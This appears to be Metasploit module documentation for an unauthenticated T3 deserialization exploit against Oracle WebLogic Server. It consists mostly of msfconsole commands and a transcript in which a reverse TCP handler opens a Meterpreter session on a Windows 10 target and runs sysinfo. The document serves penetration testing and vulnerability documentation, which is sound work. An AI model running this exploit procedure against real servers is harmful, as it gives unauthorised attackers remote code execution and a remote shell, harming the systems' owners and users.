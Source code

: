 ## Description

Oracle Weblogic Server v10.3.6.0, v12.1.3.0, v12.2.1.2, and v12.2.1.3 are vulnerable to a deserialization vulnerable, which can be used to execute code on vulnerable systems. An unauthenticated user with network access via T3 could exploit the vulnerability. This module has been tested against Oracle Weblogic Server v10.3.6.0 running on Windows10 x64 using JDK v7u17.

## Vulnerable Application

[Oracle Weblogic Server v10.3.6.0](http://download.oracle.com/otn/nt/middleware/11g/wls/1036/wls1036_generic.jar), v12.1.3.0, v12.2.1.2, and v12.2.1.3.

## Verification Steps

1. `./msfconsole -q`
2. `use exploit/multi/misc/weblogic_deserialize`
3. `set rhosts <rhost>`
4. `set srvhost <srvhos>t`
5. `set srvport <srvport>`
6. `run`

## Scenarios

### Tested on Windows 10 x64 running Oracle Weblogic Server 10.3.6.0 on JDK v7u17

```
msf5 exploit(multi/misc/weblogic_deserialize) > set rhosts 172.22.222.175
rhosts => 172.22.222.175
msf5 exploit(multi/misc/weblogic_deserialize) > set srvhost 172.22.222.121
srvhost => 172.22.222.121
msf5 exploit(multi/misc/weblogic_deserialize) > set srvport 8888
srvport => 8888
msf5 exploit(multi/misc/weblogic_deserialize) > run
[*] Exploit running as background job 0.
msf5 exploit(multi/misc/weblogic_deserialize) > 
[*] Started reverse TCP handler on 172.22.222.121:4444 
[*] Sending stage (179779 bytes) to 172.22.222.175
[*] Meterpreter session 1 opened (172.22.222.121:4444 -> 172.22.222.175:49908) at 2018-08-08 17:53:07 -0500
sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : _
OS              : Windows 10 (Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```
